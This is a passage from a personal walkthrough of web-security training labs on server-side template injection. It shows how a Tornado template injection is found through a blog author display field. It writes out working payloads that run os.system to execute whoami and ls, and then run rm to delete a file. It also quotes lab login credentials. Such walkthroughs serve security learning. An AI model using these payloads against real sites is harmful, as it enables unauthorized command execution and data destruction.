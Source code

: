 The name change happens with the request 

```http
POST /my-account/change-blog-post-author-display HTTP/2
...

blog-post-author-display=user.first_name&csrf=nhoN8qfTAGSaHo7vCwDsuh7TdZpWTM7S
```

Now, let's try some `Tornado` syntax here found on `Hacktricks` and see if the vulnerability lies here.

I modified the request body to:

`blog-post-author-display={{7*7}}...`

And I see now at the comment section that my name is shown as:

![](../../../images/Pasted image 20250126163855.png)

This means that I found a vulnerability here.

I modify the syntax to put the system command `whoami`:

`blog-post-author-display=user.nickname}}{%25+import+os+%25}{{os.system('whoami')}}`

And the result is:

![](../../../images/Pasted image 20250126165426.png)

So I see the name of `carlos` there, let's see the files in the current directory.

`blog-post-author-display=user.nickname}}{%25+import+os+%25}{{os.system('ls')}}`

![](../../../images/Pasted image 20250126165518.png)

So, now let's just delete the file: `blog-post-author-display=user.nickname}}{%25+import+os+%25}{{os.system('rm%20+morale.txt')}}`

The file is deleted and the lab is solved.

------------

### Lab.3 Server-Side Template Injection using Documentations

**Description**

The goal of the lab is to identify the template engine and then use the documentation to work out how to execute arbitrary code. Afterwards the main goal is to delete `morale.txt` from the Carlos's home directory

`content-manager:C0nt3ntM4n4g3r` are credentials that can be used to login.

**Solution**

I login with the given credentials, then I go to Home. After I select an article, I see the option to `Edit Template`.

![](../../../images/Pasted image 20250126170634.png)
